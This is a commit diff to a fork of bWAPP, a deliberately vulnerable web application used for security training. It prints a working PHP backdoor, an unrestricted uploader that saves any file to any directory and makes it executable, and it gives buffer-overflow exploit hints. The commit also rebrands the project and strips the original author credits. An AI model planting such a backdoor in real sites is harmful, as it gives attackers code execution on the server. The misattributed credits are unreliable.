

Before and after one commit to cpatel321/technight-bwapp, a PHP site: page /bWAPP/info.php in a window 1280 px wide. Shown: the part 194-800 px from the top of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
static changes (nilay)

```diff
--- a/backdoor.php
+++ b/backdoor.php
@@ -1 +1 @@
-<?php if(isset($_REQUEST["upload"])){$dir=$_REQUEST["uploadDir"];if(phpversion()<'4.1.0'){$file=$HTTP_POST_FILES["file"]["name"];@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}@chmod($dir."/".$file,0755);echo "File uploaded";}else {echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>NSA file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/bWAPP/images> <input type=submit name=upload value=upload></form><img src=./images/nsa.jpg>";}?>
+<?php if(isset($_REQUEST["upload"])){$dir=$_REQUEST["uploadDir"];if(phpversion()<'4.1.0'){$file=$HTTP_POST_FILES["file"]["name"];@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}@chmod($dir."/".$file,0755);echo "File uploaded";}else {echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>NSA file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/../images> <input type=submit name=upload value=upload></form><img src=./images/nsa.jpg>";}?>
--- a/bof_1.php
+++ b/bof_1.php
@@ -116,7 +116,6 @@
         <input type="text" id="title" name="title" size="25">
 
         <button type="submit" name="action" value="search">Search</button> &nbsp;&nbsp;(<a href="http://sourceforge.net/projects/bwapp/files/bee-box/" target="_blank">bee-box</a> only)
-
         </p>
 
     </form>
@@ -148,7 +147,7 @@
     {
 
         echo "<p>HINT: \\x90*354 + \\x8f\\x92\\x04\\x08 + [payload]</p>";
-        echo "<p>Thanks to David Bloom (@philophobia78) for developing the C++ BOF application!</p>";
+        echo "<p>Thanks to Rick Astley for developing the C++ BOF application!</p>";
 
     }
     ?>
--- a/bof_2.php
+++ b/bof_2.php
@@ -75,11 +75,11 @@
 
     <h1>Buffer Overflow (Remote)</h1>
 
-    <p>A specific bWAPP network service is vulnerable to a remote buffer overflow. Get r00t! (<a href="http://sourceforge.net/projects/bwapp/files/bee-box/" target="_blank">bee-box</a> only)</p>
+    <p>A specific network service is vulnerable to a remote buffer overflow. Get r00t! (<a href="http://sourceforge.net/projects/bwapp/files/bee-box/" target="_blank">bee-box</a> only)</p>
 
     <p>HINT: \x90*354 + \xa7\x8f\x04\x08 + [payload]</p>
 
-    <p>Thanks to David Bloom (@philophobia78) for developing the C++ BOF application!</p>
+    <p>Thanks to Rick Astley for developing the C++ BOF application!</p>
 
 </div>
 
--- a/info.php
+++ b/info.php
@@ -67,23 +67,20 @@
 
     <h1>Info</h1>
 
-    <p>bWAPP, or a <i>buggy web application</i>, is a free and open source deliberately insecure web application.<br />
-    It helps security enthusiasts, developers and students to discover and to prevent web vulnerabilities.<br />
-    bWAPP prepares one to conduct successful penetration testing and ethical hacking projects.</p>
+    <p>What makes WebExplores so unique? Well, it has over 100 web vulnerabilities!<br />
+It covers all major known web bugs, including all risks from the <a href="https://www.circle.com/en/" target="blank">CIRCLE</a> Top 10 project.</p>
 
-    <p>What makes bWAPP so unique? Well, it has over 100 web vulnerabilities!<br />
-    It covers all major known web bugs, including all risks from the <a href="http://www.owasp.org" target="blank">OWASP</a> Top 10 project.</p>
+<p>WebExplores is a PHP application that uses a MySQL database. It can be hosted on Linux, Windows, and Mac with Apache/IIS and MySQL.
+It can also be installed with WAMP or XAMPP.<br />
+Another possibility is to download the <i>mess</i></p>
 
-    <p>bWAPP is a PHP application that uses a MySQL database. It can be hosted on Linux, Windows and Mac with Apache/IIS and MySQL.
-    It can also be installed with WAMP or XAMPP.<br />
-    Another possibility is to download the <i>bee-box</i>, a custom Linux VM pre-installed with bWAPP.</p>
+<p>Download our <a href="https://sites.google.com/a/iitgn.ac.in/mess-iitgn/" target="_blank">What is WebExplores?</a> introduction tutorial, including free exercises...</p>
 
-    <p>Download our <a href="http://goo.gl/uVBGnq" target="_blank">What is bWAPP?</a> introduction tutorial, including free exercises...</p>
+<p>WebExplores is for educational purposes. Education, the most powerful weapon which we can use to change the world.
+Have fun with this free and open source project!</p>
 
-    <p>bWAPP is for educational purposes. Education, the most powerful weapon which we can use to change the world.
-    Have fun with this free and open source project!</p>
+<p>Cheers, Mohani</p>
 
-    <p>Cheers, Malik Mesellem</p>
 
 </div>
 
```
Also changed, not shown: credits.php (+4 -15 lines), js/html5.js (+23 -4 lines), portal.php (+3 -4 lines).
